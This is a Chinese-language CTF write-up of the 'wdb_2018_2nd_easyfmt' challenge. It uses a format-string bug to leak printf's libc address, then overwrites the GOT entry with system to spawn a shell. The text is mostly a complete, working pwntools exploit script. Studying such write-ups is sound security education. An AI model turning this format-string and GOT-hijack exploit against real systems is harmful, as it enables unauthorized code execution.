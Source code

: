 比较简单的格式化字符串，格式化字符串+劫持GOT表

checksec

![image-20210418201508484](https://static.hack1s.fun/images/2021/04/18/image-20210418201508484.png)

IDA发现main函数中是一个循环的格式化字符串输出

![image-20210418205333141](https://static.hack1s.fun/images/2021/04/18/image-20210418205333141.png)

直接用pwntools的FmtStr找到偏移

![image-20210418205229901](https://static.hack1s.fun/images/2021/04/18/image-20210418205229901.png)

程序没有开启pie，和relro

我们首先使用printf泄漏libc的基地址，之后修改printf的got表为system的地址

最后输入`/bin/sh\x00`调用`system("/bin/sh")`

调试的时候最开始一直出错，最后发现是因为在收到printf地址之前还会输出一边got表处的地址，所以增加了一个`recv(4)`之后就好了

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import *

elf = context.binary = ELF('./wdb_2018_2nd_easyfmt')
context.log_level = 'debug'

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

io = start()

io.recv()

payload = p32(elf.got['printf'])+b"%6$s"
io.sendline(payload)

io.recv(4)
printf_addr = u32(io.recv(4))
print("print addr:",hex(printf_addr))
libc = LibcSearcher('printf',printf_addr)

libc_base = printf_addr - libc.dump('printf')
system_addr = libc_base + libc.dump('system')

payload = fmtstr_payload(6,{elf.got['printf']:system_addr})
io.sendline(payload)

io.sendline("/bin/sh\x00")

io.interactive()
```